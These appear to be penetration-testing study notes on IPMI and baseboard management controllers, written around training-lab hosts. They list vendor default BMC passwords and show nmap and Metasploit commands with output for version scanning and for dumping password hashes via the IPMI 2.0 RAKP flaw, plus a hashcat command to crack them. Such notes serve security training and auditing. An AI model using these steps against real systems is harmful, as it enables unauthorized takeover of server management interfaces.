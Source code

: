 # IPMI

* IPMI you would be able to execute remote commands
* Intelligent Platform Management Interface
* works independently from the host os
  * can work when the system is shutdown
  * Before the OS has booted to modify BIOS settings
  * When the host is fully powered down
  * Access to a host after a system failure
* IPMI requires the following components:
  * Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
  * Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
  * Intelligent Platform Management Bus (IPMB) - extends the BMC
  * IPMI Memory - stores things such as the system event log, repository store data, and more
  * Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus
* Some unique default passwords to keep in our cheatsheets include:

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

### Footprinting the Service

#### Nmap

```shell-session
 sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

```shell-session
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

#### Metasploit Version Scan

```
msfconsole
```

```shell-session
 use auxiliary/scanner/ipmi/ipmi_version 
```

```shell-session
set rhosts 10.129.42.195
```

```shell-session
show options 
```

```shell-session

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads
```

```shell-session
run
```

```
[*] Sending IPMI requests to 10.129.160.115->10.129.160.115 (1 hosts)
[+] 10.129.160.115:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

#### Metasploit Dumping Hashes

```
msfconsole
```

```shell-session
use auxiliary/scanner/ipmi/ipmi_dumphashes 
```

```shell-session
set rhosts 10.129.42.195
```

```shell-session
show options 
```

```shell-session
run
```

```

[+] 10.129.160.115:623 - IPMI - Hash found: admin:5cd4450782000000067fb9f6e152cfab613715ed4a90c340a862a5f4d2badb80ba70abad42852effa123456789abcdefa123456789abcdef140561646d696e:b3389ffe57d4c8005c12650ab4f38f3463b72b84
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

**for above command**

* can set PASS\_FILE

```
set PASS_FILE /usr/share/wordlists/seclists/Passwords/bt4-password.txt
```

```
run
```

### Dangerous Settings

* If default credentials do not work to access a BMC, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0.
  * &#x20;During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place.
  * can be leveraged to obtain the password hash for ANY valid user account on the BMC.
    * can be cracked offline
      * `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`
